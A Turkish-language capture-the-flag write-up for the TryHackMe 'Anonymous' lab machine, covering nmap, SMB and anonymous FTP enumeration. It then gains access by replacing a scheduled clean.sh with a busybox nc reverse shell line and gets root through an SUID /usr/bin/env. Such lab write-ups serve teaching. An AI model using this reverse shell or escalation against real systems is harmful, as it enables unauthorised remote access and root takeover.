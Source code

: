 ```yaml
---
title: 'TryHackMe | Anonymous WriteUp'
author: appdone
categories: [TryHackMe Challenges]
tags: [ftp, suid]
render_with_liquid: false
---
```


## Özet

Anonymous, `FTP` üzerinden sisteme shell yükleyerek sisteme giriş yaptığımız orta seviye bir linux makinedir. Bağlantı sonrasında `SUID` bitine sahip olan dosyaları listeyecek ve listede bulunan bir dosyadan faydalanarak yetki yükselteceğiz.

## Keşif aşaması

### Nmap taraması

```console
$nmap -sV -sC -T4 10.10.84.107
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-23 07:19 EDT
Nmap scan report for 10.10.84.107
Host is up (0.063s latency).
Not shown: 996 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.21.66.61
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2025-03-23T11:20:06+00:00
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-03-23T11:20:06
|_  start_date: N/A
|_clock-skew: mean: 1s, deviation: 0s, median: 1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.91 seconds
```

Tarama sonucunda 21 (FTP), 22 (SSH) ve 139/445 (SMB) numaralı portların açık olduğunu öğreniyoruz. Ayrıca `FTP` servisinin `anonymous` özelliği, SMB servisinin ise misafir kullanıcı özelliği aktif bulunuyor.

### 139/445 numaralı portlarının incelenmesi

SMBMap aracını kullanarak misafir oturumunda görüntüleyebildiğimiz dosyaları listelediğimizde pics adında bir paylaşım olduğunu görüyoruz. 

```console
$ smbmap -H 10.10.84.107 -r
[+] Guest session       IP: 10.10.84.107:445    Name: 10.10.84.107                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        pics                                                    READ ONLY       My SMB Share Directory for Pics
        .\pics\*
        dr--r--r--                0 Sun May 17 07:11:34 2020    .
        dr--r--r--                0 Wed May 13 21:59:10 2020    ..
        fr--r--r--            42663 Mon May 11 20:43:42 2020    corgo2.jpg
        fr--r--r--           265188 Mon May 11 20:43:42 2020    puppos.jpeg
        IPC$                                                    NO ACCESS       IPC Service (anonymous server (Samba, Ubuntu))
```

Bu paylaşımın içerisinde `corgo2.jpg` ve `puppos.jpeg` olmak üzere iki dosya bulunuyor. İkisindende herhangi bir bilgi çıkaramadım.

```console
$smbclient \\\\10.10.84.107\\pics
Password for [WORKGROUP\appdone]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun May 17 07:11:34 2020
  ..                                  D        0  Wed May 13 21:59:10 2020
  corgo2.jpg                          N    42663  Mon May 11 20:43:42 2020
  puppos.jpeg                         N   265188  Mon May 11 20:43:42 2020

                20508240 blocks of size 1024. 13306816 blocks available
smb: \> get corgo2.jpg 
getting file \corgo2.jpg of size 42663 as corgo2.jpg (90.4 KiloBytes/sec) (average 90.4 KiloBytes/sec)
smb: \> get puppos.jpeg 
getting file \puppos.jpeg of size 265188 as puppos.jpeg (384.8 KiloBytes/sec) (average 265.1 KiloBytes/sec)
smb: \> 
```

### 21 numaralı portun incelenmesi

FTP servisine misafir kullanıcı olarak bağlandıktan sonra `clean.sh`, `removed_files.log` ve `to_do.txt` olmak üzere üç dosya ile karşılaşıyoruz.

```console
ftp> ls -la
229 Entering Extended Passive Mode (|||15032|)
150 Here comes the directory listing.
drwxrwxrwx    2 111      113          4096 Jun 04  2020 .
drwxr-xr-x    3 65534    65534        4096 May 13  2020 ..
-rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh
-rw-rw-r--    1 1000     1000         1720 Mar 23 11:36 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
226 Directory send OK.
ftp> 
```

`to_do.txt` dosyası içerisinde, misafir kullanıcı özelliğinin güvenli olmadığı ve kapatılması gerektiği yazıyor.

```
I really need to disable the anonymous login...it's really not safe
```

`clean.sh` dosyasının içerisinde ise  `Running cleanup script:  nothing to delete` yazısını `removed_files.log` dosyasına ekleyen bir `bash` kodu var.

```bash
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```

`removed_files.log` dosyasını kontrol ettiğimizde `clean.sh` dosyasının defalarca çalıştırıldığınnı ve bu dosyaya yazdırıldığını görüyoruz.

```console
$ cat removed_files.log                                                                                                                                                                   
Running cleanup script:  nothing to delete                                                                                                                                                    
Running cleanup script:  nothing to delete                                                                                                                                                    
Running cleanup script:  nothing to delete
...
```

## Sömürü aşaması

`removed_files.log` dosyasından yola çıkarak `clean.sh` dosyasının ara ara çalıştırıldığını düşünebiliriz. Reverse shell kodumuzu aynı isimde bir dosyaya ekleeyelim.

```console
$ echo "busybox nc 10.21.66.61 1234 -e /bin/bash" > clean.sh
```

Daha sonra bu dosyayı `FTP` servisinde bulunan `scripts` dizinine yükledikten sonra bağlantının geleceği portu dinlemeye alalım.

```console
ftp> put clean.sh 
local: clean.sh remote: clean.sh
229 Entering Extended Passive Mode (|||37654|)
150 Ok to send data.
100% |*************************************************************************************************************************************************|    41        1.14 MiB/s    00:00 ETA
226 Transfer complete.
41 bytes sent in 00:00 (0.30 KiB/s)
```

Yaklaşık 15-20 saniye sonra dinlemeye aldığımız port üzerinden bağlantıyı elde ediyoruz.

```console
$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.21.66.61] from (UNKNOWN) [10.10.84.107] 42498
id
uid=1000(namelessone) gid=1000(namelessone) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

## Yetki yükseltme

### root

`SUID` bitine sahip olan dosyaları listelediğimizde içlerinden biri olan `/usr/bin/env` dosyası ilgimizi çekiyor.

```console
 namelessone@anonymous:/$ find / -perm -4000 2>/dev/null
...
/usr/bin/env
...
```

Bu dosyayı [GTFOBins](https://gtfobins.github.io/gtfobins/env/#suid) sitesinde arattıktan sonra sadece `/usr/bin/bash -p` komutunu ekleyerek yetki yükseltebileceğimizi öğreniyoruz. Bunu uyguladıktan sonra root haklarına sahip oluyor ve `/root` diziniden son bayrağımızı alıyoruz.

```console
namelessone@anonymous:/$ /usr/bin/env /bin/bash -p
bash-4.4# id
uid=1000(namelessone) gid=1000(namelessone) euid=0(root)...
bash-4.4# cd /root
bash-4.4# ls
root.txt
```
